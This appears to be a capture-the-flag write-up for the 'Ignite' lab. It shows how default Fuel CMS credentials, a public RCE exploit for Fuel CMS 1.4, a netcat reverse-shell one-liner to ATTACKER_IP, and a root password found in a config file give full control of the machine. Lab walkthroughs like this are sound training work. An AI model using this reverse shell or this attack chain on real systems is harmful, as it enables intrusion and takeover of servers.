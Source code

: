 ```yaml
---
title: "Ignite"
tags:
  - Easy
  - Linux
  - nmap
  - fuelcms
  - SQLi
---
```


| Difficulty |  |  IP Address   |  |
| ---------- |--|:------------: |--|
|   Easy     |  |  10.10.162.4  |  |

---

### [ User.txt ]

To start off, let's run a basic `nmap` scan (top 1000 common ports) on the machine:

```
sudo nmap -sC -sV -vv 10.10.162.4
```

![screenshot1](../assets/images/ignite/screenshot1.png)

From the results, we can see that only port **80** is open, serving Apache httpd 2.4.18. An interesting thing to note is that there is a disallowed entry '/fuel/' in the robots.txt file.

Navigating to the HTTP website, we see a Fuel CMS webpage:

![screenshot2](../assets/images/ignite/screenshot2.png)

I first looked at the source code of the site, but there weren't any useful comments or information that were left behind by the developer. 

Next, I noticed something interesting at the bottom of the page:

![screenshot3](../assets/images/ignite/screenshot3.png)

It seems that the default admin credentials for Fuel CMS is:

> admin : admin

Furthermore, the admin page for Fuel CMS can be found in /fuel. Visiting /fuel brings us to a login page:

![screenshot4](../assets/images/ignite/screenshot4.png)

I tried using the default credentials (admin:admin) and was able to log in! We are then brought to an administrative dashboard:

![screenshot5](../assets/images/ignite/screenshot5.png)

Clicking on 'Click here for your site documentation', we can see that the site is running FUEL CMS **1.4**:

![screenshot6](../assets/images/ignite/screenshot6.png)

With the knowledge of the version number, let's try searching for an exploit using `searchsploit`:

```
searchsploit fuel 1.4
```

![screenshot7](../assets/images/ignite/screenshot7.png)

The second exploit provides a Python script that allows us to gain remote code execution (RCE) on the machine. Let's use it!

**Exploit:**

![screenshot14](../assets/images/ignite/screenshot14.png)

Let's modify the exploit so that it will work for us.

Seems like we just have to change the `url` to the victim's IP address. Also note that the code runs the connection through Burp Proxy, which we will remove as we are not using that. Finally, to allow for compatibility with Python3, I had to make the following changes:

* `raw_input()` to `input()`

* `quote()` to `urllib.parse.quote()` (make sure to import urllib.parse)

* `print r.text[0:dup]` to `print(r.text[0:dup])`

The modified exploit script looks like this:

![screenshot15](../assets/images/ignite/screenshot15.png)

Running the exploit, it prompts us to run a command on the target machine. Let's try a simple `whoami` command:

![screenshot16](../assets/images/ignite/screenshot16.png)

Nice, it works! We've achieved RCE on our target.

Now, we'll try setting up a reverse shell. Using pentestmonkey's [reverse shell cheatsheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet), I found one that worked:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKER_IP 4444 >/tmp/f
```

Running this command using the exploit allowed us to gain access into our target machine:

![screenshot18](../assets/images/ignite/screenshot18.png)

Now that we're in, we can obtain **user.txt** from www-data's **home** directory.

---

### [ Root.txt ]

To enumerate any potential privesc vectors, we'll use [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS), a privilege escalation automation script. This will help speed up the enumeration process. 

Looking through linpeas' results, we come across an interesting configuration file: **/var/www/html/fuel/modules/views/settings.php**:

![screenshot20](../assets/images/ignite/screenshot20.png)

Exploring this file yielded nothing of interest. However, I decided to look around its neighbouring directories and files. 
After searching for a long time, I finally found a file called **database.php**, located in **/var/www/html/fuel/application/config/**, that had the root password inside:

![screenshot21](../assets/images/ignite/screenshot21.png)

The root password is:

> mememe

With the root password, we can then log in as root and obtain **root.txt** located in **/root**.

---

### [ Extra: Interactive Shells ]

When I was trying to log in using `su root`, an error "must be run from a terminal" kept popping up, disallowing me from logging in. Doing some research, this seems to be because the shell spawned from our reverse shell code is a **non-interactive** shell, and not a fully-interactive TTY shell.

In order to upgrade the shell, we can use Python:

![screenshot22](../assets/images/ignite/screenshot22.png)

This command upgrades our shell to a more functional one that is similar to our terminal on our local machine. We can then `su` into the root account:

![screenshot23](../assets/images/ignite/screenshot23.png)
